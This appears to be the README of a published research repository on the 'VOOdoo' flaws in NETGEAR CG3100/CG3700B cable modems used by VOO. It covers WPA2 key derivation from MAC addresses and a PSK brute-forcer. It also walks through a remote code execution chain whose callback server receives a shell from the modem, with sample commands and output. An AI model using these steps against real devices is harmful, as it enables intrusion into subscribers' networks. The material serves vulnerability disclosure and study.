 # VOOdoo - Research Notes

![lol](voodoo_logo.png)

This repository holds proof-of-concepts for the VOOdoo vulnerabilities found in NETGEAR CG3100 and CG3700B cable modems provided by VOO to its subscribers.

These modems use a weak algorithm to generate WPA2 pre-shared keys, allowing an attacker in reception range of a vulnerable modem to derive the WPA2 pre-shared key from the access point MAC address. The modems are also vulnerable to remote code execution through the web administration panel. The exploit is possible due to usage of default credentials and programming errors in multiple form handlers.

By chaining these vulnerabilities an attacker can gain unauthorized access to VOO customers LAN (over the Internet or by being in reception range of the access point), fully compromise the router, and leave a persistent backdoor allowing direct remote access to the network.

### SSID generator

Generate SSID from MAC address similarly to Netgear CG3100 and CG3700B devices.

```
python3 genssid.py a4:2b:8c:a0:c0:b8
VOO-984071
```

### WPA2 PSK Generator

The *wifi/brutepsk.py* script will generate a list of valid WPA2 PSK candidates by using
a list of observed Netgear OUIs in Wigle and validating them by using the provided
SSID as an oracle.

With the current list, you'll get around 120 candidates for a given SSID.

```
time python3 brutepsk.py VOO-984071
--snip--
[+] Potential candidate found (MAC: 0x001E2AFE426B) - PXBXLGRG
[+] Potential candidate found (MAC: 0x001E2AFEA994) - XXDOHLZZ
[+] Potential candidate found (MAC: 0x001F330498FC) - DOPZHBPA
--snip--
python3 brutepsk.py VOO-984071  285,18s user 0,03s system 99% cpu 4:45,26 total
```

### Network Sniffer with Automatic PSK Guesser

**This no longer works since the patch rollout**

You need to put your wireless interface in monitor mode and start scanning for devices around you using airodump:

```
sudo airmon-ng wlp6s
sudo airodump-ng -i wlp6s0mon
```

While doing so, launch the sniffer script and it will list vulnerable access points:

```
sudo python sniffer.py
AP MAC: 20:0c:c8:16:76:dc with SSID: VOO-111317 (PSK: VNCKUFXQ)
```

### Remote Command Execution (local network)

The callback is made to 192.168.100.2 so you need to set that address explicitly:

```
ip addr add 192.168.100.2/24 dev eno1
ip r add 192.168.100.1 dev eno1 src 192.168.100.2
```

Launch the callback server:

```
python2.7 server.py
```

Run the exploit:

```
python2.7 -W ignore exploit.py
[+] Loading anti-csrf token
[+] Got anti-csrf token (1756101231)
[+] Triggering exploit.
```

If everything worked as expected:

```
python2.7 server.py 
[+] Trying to bind to 0.0.0.0 on port 5504: Done
[+] Waiting for connections on 0.0.0.0:5504: Got connection from 192.168.100.1 on port 1024
[+] Got connection. Sending payload.
[*] Switching to interactive mode
$ help
!               ?               REM             call            cd             
dir             find_command    help            history         instances      
ls              man             pwd             sleep           syntax         
system_time     usage           
----
ClearCmCert     binarySfid      bpiShow         cfg_hex_show    cfg_tlv_show   
ch_state        clear_image     cm_ctrl         comp_mac_to_phy comp_phy_to_mac
copy_image      dbc_msg_inject  dload           dsdiag          dsx_show       
event_censor    goto_ds         goto_us         igmpShow        ip_initialize  
ip_show         l2vpn_show      link_state      log_messages    map_debug      
mdd_modify      mdd_sets_show   modem_caps      nrg_mgmt        
override_ucd_max_burst          publish_event   rate_shaping_enable            
reseq_dsid_regress_test         rng_rsp         scan_stop       showFlows      
state           stop_download   ucdShow         ucddiag         up_dis         
us_phy_oh_show  us_target_mset  usdiag          
----
[dsxTest] [propane_ctl] 
```

### Remote Command Execution (Internet)

**This no longer works over the Internet since VOO applied mitigations (disabling UPnP, filtering DNS rebinding).** 

However, everything is available in index.html, and exploit.js if you want to study the code.


## Video Demo

![rce demo](voodoo_rce_demo.mp4)

## References

- VOOdoo - Remotely Compromising VOO Cable Modems - [https://quentinkaiser.be/security/2021/03/09/voodoo/](https://quentinkaiser.be/security/2021/03/09/voodoo/)
